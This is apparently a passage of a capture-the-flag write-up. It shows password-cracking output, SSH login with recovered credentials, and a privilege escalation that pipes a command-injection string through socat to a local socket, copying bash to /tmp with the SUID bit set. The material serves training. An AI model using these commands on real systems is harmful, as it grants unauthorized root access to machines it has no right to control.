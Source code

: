 ```
nothing          (Database)     
1g 0:00:00:02 DONE 2/3 (2024-08-24 01:46) 0.3610g/s 449.8p/s 449.8c/s 449.8C/s frodo..barbara
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Inside the database we find an attachment called "hashes", let's try to crack them:

<img width="1053" alt="image" src="https://github.com/user-attachments/assets/1d24713a-d4d7-454f-b316-5c1c7358b65c">


We gain two possible credential pairs – `darel:weakness` and `darel:goodpassword`, the last one turns to be valid for ssh:

`ssh darel@hostname -p port`

Exploring the machine, we find a listening port using `netstat -l`


<img width="884" alt="image" src="https://github.com/user-attachments/assets/1fe58c21-478f-4e48-9f2f-9533fa40e915">


Using **socket command injection**, let's copy bash binary, set suid and execution rights on it:

`echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/bin/socket.s`

PWNed!

<img width="972" alt="image" src="https://github.com/user-attachments/assets/3da66c4a-153e-4ed8-b4e2-2794b64580c8">

## Flag: tqlCTF{1nQu1s1t1on_l34ds_to_w0rld5_d3s7Ruc710n}
